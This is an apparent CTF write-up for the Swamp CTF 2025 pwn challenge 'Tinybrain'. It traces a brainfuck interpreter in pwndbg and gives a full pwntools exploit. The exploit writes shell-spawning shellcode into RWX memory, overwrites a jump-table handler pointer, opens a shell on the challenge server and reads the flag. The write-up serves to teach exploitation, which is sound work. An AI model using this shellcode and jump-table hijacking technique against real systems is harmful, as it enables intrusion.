 ```yaml
---
title: Tinybrain
date: 2025-03-30T18:09:17+03:00
description: Writeup for Tinybrain [Swamp CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Optimized for the minimum footprint... if you ignore the jump tables...

Note: bf should be called with a file. The remote runs a script that is not provided, of which makes a file from your input.

## Intuition

We're given a brainfuck interpreter that takes interprets the program found in the filename passed as its first argument. Let's look at it dynamically:

```
$ gdb --args bf payload
pwndbg> start
   0x401000    lea    r13, [0x403800]                 R13 => 0x403800 ◂— 0
   0x401008    xor    r14, r14                        R14 => 0
   0x40100b    mov    rdi, qword ptr [rsp + 0x10]     RDI, [0x7fffffffdef0] => 0x7fffffffe270 ◂— 0x64616f6c796170 /* 'payload' */
   0x401010    mov    eax, 2                          EAX => 2
   0x401015    xor    esi, esi                        ESI => 0
   0x401017    xor    edx, edx                        EDX => 0
   0x401019    syscall  <SYS_open>
   0x40101b    mov    r12, rax
   0x40101e    call   0x40102a                    <0x40102a>
 
   0x401023    jmp    qword ptr [rax*8 + 0x402000]
 
   0x40102a    inc    r14
```

We can see that the our file "payload" is opened through the `open()` syscall.
Then the function at `0x40102a` is called. Let's see it:

```
   0x40102a    inc    r14                         R14 => 1
   0x40102d    xor    eax, eax                    EAX => 0
   0x40102f    mov    rdi, r12                    RDI => 3
   0x401032    lea    rsi, [rsp - 1]              RSI => 0x7fffffffded7 ◂— 0x40102300
   0x401037    mov    byte ptr [rsi], 0           [0x7fffffffded7] => 0
   0x40103a    mov    edx, 1                      EDX => 1
   0x40103f    syscall  <SYS_read>
   0x401041    movzx  eax, byte ptr [rsp - 1]
   0x401046    ret 
       ↓
   0x401023    jmp    qword ptr [rax*8 + 0x402000] <0x401047>
```

Then we can see the file is read one byte at the time and put into EAX.
Which is further used for the jump table after the ret.
The jump table calls the appropriate handler for the brainfuck instruction extracted from the file.
There is a huge array of pointers at `0x402000` which each map a character to a function. Most of them are NOPs.

Let's check out the register values after the first read character:

```
 RAX  0x2b
 RBX  0
 RCX  0x401041 ◂— movzx eax, byte ptr [rsp - 1] /* 0x8348c3ff2444b60f */
 RDX  1
 RDI  3
 RSI  0x7fffffffded7 ◂— 0x4010232b
 R8   0
 R9   0
 R10  0
 R11  0x346
 R12  3
 R13  0x403800 ◂— 0
 R14  1
 R15  0
 RBP  0
 RSP  0x7fffffffded8 —▸ 0x401023 ◂— jmp qword ptr [rax*8 + 0x402000] /* 0x4900402000c524ff */
 RIP  0x401046 ◂— ret  /* 0x4528412ce88348c3 */
```

We can see we have a memory address in R13, a counter in R14, and the extracted character in RAX.
R13 (the memory address) is also used as a pointer to write to.
Specifically, when the character `+` or `-` are used, the following handler adds, or substracts 1 from the value R13 points at:

```
   0x401047    sub    rax, 0x2c              RAX => 0xffffffffffffffff (0x2b - 0x2c)
   0x40104b    sub    byte ptr [r13], al     [0x403800] => 1 (0x0 - 0xff)
   0x40104f    jmp    0x40101e                    <0x40101e>
```

Basically, R13 points towards the memory of our brainfuck program. Additionally, you can navigate through it with the `>` and `<` characters:

```
   0x401051    sub    rax, 0x3d                        RAX => 1 (0x3e - 0x3d)
   0x401055    add    r13, rax                         R13 => 0x403801 (0x403800 + 0x1)
   0x401058    jmp    0x40101e                    <0x40101e>
```

Now, interestingly, the program's memory is RWX:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x401000           0x404000 rwxp     3000   1000 /home/costinteo/Programming/ctf/swampctf/pwn/tinybrain/bf
    0x7ffff7ff9000     0x7ffff7ffd000 r--p     4000      0 [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```

So the idea is as such:

1. Write shellcode in the program memory starting from `0x403800` by increasing each byte one by one.
2. Move back with a bunch of `<` characters to go to `0x402000`, where the array of function pointers starts.
3. Change a few bytes for the NULL character handler to point to `0x403800`, the beginning of the shellcode.
4. Send a NULL byte.
5. ???
6. Win.

## Solution

Python script below. Have fun:

```py
#!/usr/bin/env python3

from pwn import *

# Just spawns a shell
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

cf = b">"
cb = b"<"
a  = b"+"
s  = b"-"

payload = b""

# Write shellcode
for c in shellcode:
    for i in range(c):
        payload += a
    payload += cf

offset = 0x403800 - 0x402000

# Get to array of ptrs
payload += offset * cb + len(shellcode) * cb

# Decrease first byte of the first pointer
for i in range(0xac):
    payload += s

payload += cf

# Increase first byte of the first pointer
for i in range(0x28):
    payload += a

# Trigger
payload += b"\x00"

open("./payload", "wb").write(payload)

target = remote("chals.swampctf.com", 41414)

target.send(payload + b"q") # Need 'q' for the remote program to finish input
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 41414: Done
[*] Switching to interactive mode
Insert brainfuck instructions (q to finish):
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag.txt
swampCTF{1_W4s_re4L1y_Pr0ud_of_th15_b1N}
```
